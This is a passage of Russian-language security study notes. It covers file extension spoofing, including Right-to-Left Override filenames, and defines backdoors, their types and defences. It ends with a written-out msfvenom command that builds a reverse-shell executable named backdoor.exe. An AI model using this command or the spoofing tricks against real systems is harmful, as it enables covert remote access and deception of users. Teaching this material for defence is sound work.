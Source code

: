  8. Extension-спуфинг (или File Extension Spoofing): Маскировка вредоносного файла под безобидный.
    Цель:
      - Обман пользователя, чтобы он запустил вредоносный .exe, думая, что это PDF или DOC.
    Примеры:
      - Ручное переименование файла с пробелом или символами: document.pdf .exe отображается в Windows без .exe по умолчанию.
      - Использование Unicode-символов (Right-to-Left Override - RLO): Файл exe.‮cod.exe отображается как exe.doc.exe.
    Защита: 
      - Включить отображение всех расширений файлов в Windows.
      - Использовать антивирусы с эвристикой.
      - Не запускать файлы из ненадёжных источников.
   
 #### 3. Что такое backdoor, какие программы позволяют создавать данный тип?

  Backdoor (в переводе с английского — «чёрный ход») — это скрытый способ обхода обычных процедур аутентификации или авторизации в программном обеспечении, системе или устройстве. 
  Backdoor может быть заложен намеренно разработчиком, внедрён злоумышленником или возникнуть как непреднамеренная уязвимость.

  Основные типы backdoor:
    - Намеренные (закладки). Разработчики иногда оставляют backdoor для упрощения технической поддержки или отладки. Однако если такая «дверь» становится известна злоумышленникам, она может быть использована для несанкционированного доступа.
    - Вредоносные backdoor. Устанавливаются хакерами после первоначального взлома системы. Такие backdoor позволяют злоумышленникам сохранять доступ к системе даже после устранения первоначальной уязвимости.
    - Аппаратные backdoor. Редко, но возможны в микросхемах или сетевом оборудовании. Такие backdoor крайне трудно обнаружить и устранить.

  Примеры использования backdoor:
    - Удалённое управление заражённым компьютером (например, через троянские программы типа RAT — Remote Access Trojan).
    - Обход двухфакторной аутентификации.
    - Сбор конфиденциальных данных без ведома пользователя.
  
  Причины опасности:
    - Позволяют обойти защиту системы.
    - Могут долгое время оставаться незамеченными.
    - Используются для кражи данных, шпионажа, распространения вредоносного ПО и других злонамеренных действий.

  Основные способы защиты:
    - Регулярное обновление ПО и операционных систем.
    - Использование антивирусов и систем обнаружения вторжений (IDS/IPS).
    - Регулятрое проведение аудита кода и систем на наличие подозрительной активности.
    - Ограничение привилегий пользователей (следование принципу наименьших привилегий).

  Примеры программ, позволяющих создавать и эксплуатировать backdor:
    1. Metasploit Framework
      Назначение: Платформа для разработки, тестирования и использования эксплойтов.
      Backdoor-возможности: Позволяет создавать payload'ы (полезную нагрузку), например:
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o backdoor.exe
      этот .exe-файл при запуске на атакуемом хосте подключится к атакующему и предоставит удалённый доступ (reverse shell)
